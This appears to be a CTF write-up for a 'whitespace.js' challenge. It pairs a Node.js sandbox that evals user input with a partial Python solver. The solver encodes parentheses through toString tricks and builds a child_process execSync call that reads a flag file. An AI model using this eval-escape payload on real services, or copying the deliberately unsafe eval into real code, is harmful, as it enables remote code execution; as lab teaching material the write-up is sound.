 `sandbox/index.js`:
```javascript
/* snip */

app.post("/", async (req, res) => {
  const { expr } = req.body;

  const proc = await execFile("node", ["whitespace.js", expr], {
    timeout: 2000,
  }).catch((e) => e);

  res.send(proc.killed ? "Timeout" : proc.stdout);
});

/* snip */
```

`sandbox/whitespace.js`:
```javascript
const WHITESPACE = " ";

const code = [...process.argv[2].trim()].join(WHITESPACE);
if (code.includes("(") || code.includes(")")) {
  console.log("Do not call functions :(");
  process.exit();
}

try {
  console.log(eval(code));
} catch {
  console.log("Error");
}
```

The goal is to get RCE to read a flag file with an unknown name.

### Solution & Solver

I expected many creative solutions by CTF players that love JavaScript.
Actually, each team that solved this challenge used a different solution.

My solver is one example of solutions:
```python
import httpx
import os

BASE_URL = os.environ["WEB_BASE_URL"]


def make_str(xs: str) -> str:
    ys = []
    for x in xs:
        if x == "(":
            ys.append(f'[][{make_str("toString")}][{make_str("toString")}]``[9+8]')
        elif x == ")":
            ys.append(f'[][{make_str("toString")}][{make_str("toString")}]``[9+9]')
        else:
            ys.append(f'"{x}"[1]')
    return "+".join(ys)


command = "cat /flag-*.txt"

func_body = f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"

```

[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/